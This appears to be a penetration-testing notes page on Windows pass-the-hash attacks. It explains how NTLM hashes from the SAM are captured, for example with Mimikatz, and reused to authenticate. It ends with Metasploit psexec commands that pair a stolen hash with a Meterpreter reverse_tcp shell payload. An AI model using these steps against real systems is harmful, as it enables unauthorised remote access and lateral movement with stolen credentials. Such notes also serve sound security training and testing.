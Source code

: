 --- ---
<h2>General</h2>
Pass-the-hash (PtH) is a technique that allows an attacker to authenticate to a remote system using the underlying NTLM or LAN Manager (LM) hash of a user's password, instead of the actual password. This can allow an attacker to gain access to a system or network without knowing the actual password of the user.

On a Windows system, user passwords are stored in a hashed format in the system's local security database, called the Security Account Manager (SAM). When a user enters their password, the system hashes the entered password and compares it to the stored hash to authenticate the user.

In a PtH attack, the attacker obtains the hash of a user's password and uses it to authenticate to a system as that user. This can be done by capturing the hash through a variety of means, such as through a network sniffer, by extracting it from a compromised system, or by using a tool like Mimikatz. Once the attacker has the hash, they can use it to authenticate to a system without knowing the actual password.

---
<h2>Commands</h2>
Make sure you have gather some hash before starting this step and also have a meterpreter session

PtH Module
```
use windows/smb/psexec
set payload windows/x64/meterpreter/reverse_tcp
show options   ---> Set the options (RHOST, RPORT, SMB DOMAIN.., USER/PASS or HASH)
run
```